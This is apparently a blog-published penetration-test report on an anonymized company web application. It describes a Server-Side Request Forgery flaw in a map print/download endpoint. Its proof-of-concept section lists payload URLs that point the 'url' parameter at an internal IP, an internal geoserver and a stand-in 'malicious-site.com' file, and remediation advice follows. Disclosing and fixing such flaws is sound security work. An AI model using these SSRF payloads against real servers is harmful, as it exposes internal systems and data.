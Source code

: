 ```yaml
---
layout: post
title: 'IT Company Web Application PT'
tags:
 - web
 - real-activity
hero: https://images.unsplash.com/photo-1462206092226-f46025ffe607?ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D&auto=format&fit=crop&w=1474&q=80
overlay: red
---
```


Please note that for this proof of concept, while images and step-by-step reproduction tips are fundamental for evidentiary purposes, they will not be supplied. Furthermore, in adherence to our commitment to privacy and compliance with non-disclosure agreements, all URLs and functionalities within this assessment have been anonymized. {: .lead} <!–-break-–>

# IT Company

## Type of activity and objectives
The objective of this engagement was to conduct a web application penetration test for the organization. The aim was to identify potential vulnerabilities that could potentially be exploited from the outside, to prevent unauthorized access, compromise and data exfiltration.
## Scope of evaluation
The evaluation was focused on the exposed web application. This scope encompassed assessing the security and potential vulnerabilities within this surface.
## Executive Summary 
The assessment of the target application identified a Server-Side Request Forgery (SSRF) vulnerability. SSRF is a security vulnerability that allows an attacker to manipulate the server into making unintended network requests to internal or external resources. Exploiting this vulnerability could potentially lead to data exposure, service disruption, and unauthorized access to sensitive information.
## Finding Summary
- SSRF
## Risk Impact Graph with CVSS Scores

![](https://raw.githubusercontent.com/blitz0p3rations/blitz0p3rations.github.io/master/uploads/c7.png)

## Vulnerability Types Distribution

![](https://raw.githubusercontent.com/blitz0p3rations/blitz0p3rations.github.io/master/uploads/c8.png)

## Attack storyline and findings### SSRF
- CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:L/A:L
#### Proof of Concept (PoC)

1. URL: `.it/maps/api/v1/print/download?url=http%3a%2f%2f10.150.56.238%3a8080%2f`
   
   This URL appears to be susceptible to SSRF. By providing a specially crafted `url` parameter, we can attempt to access internal or external resources.

   Example:
   `.it/maps/api/v1/print/download?url=http://malicious-site.com/malicious-file`

2. URL: `.it/maps/api/v1/print/download?url=https%3a%2f%2f.it%2fgeoserver%2fp_bzAdministrativeUnits`

   Similar to the previous URL, this one is also vulnerable to SSRF. The provided `url` parameter seems to accept URLs as inputs, which can be manipulated to request arbitrary resources.

   Example:
   `.it/maps/api/v1/print/download?url=https://malicious-site.com/malicious-file`

By using the provided URLs and manipulating the `url` parameter, an attacker could attempt to trigger unintended requests to external or internal resources. This vulnerability could potentially lead to unauthorized data access or other security risks. To mitigate this vulnerability, ensure proper input validation, restrict outgoing requests to trusted domains, and follow best practices for SSRF prevention.

#### Remediations
- Input Validation and Whitelisting: Validate and sanitize user-provided input thoroughly before making any external requests. Use whitelists of allowed domains or IP addresses to restrict the destinations of requests.

- Use Proper Libraries: If your application needs to make requests to external resources, use well-maintained libraries or modules that offer built-in protections against SSRF. These libraries might have features like URL validation and restriction.

- Bound IP Ranges and Ports: If possible, configure the server to only allow requests to specific IP ranges or ports. This can help prevent SSRF attacks by restricting where requests can be sent.

- Use DNS Resolution Safeguards: Prevent the SSRF vulnerability by using DNS resolution safeguards, such as forcing DNS resolution through a proxy that only resolves safe domains.

- Avoid User-Controlled URLs: Avoid making requests to URLs provided by users unless necessary. If user-controlled URLs are needed, ensure that they go through rigorous validation and sanitization.

- Network Segmentation: Isolate your application's server from internal systems by using network segmentation. This can prevent SSRF attacks from reaching sensitive internal resources.
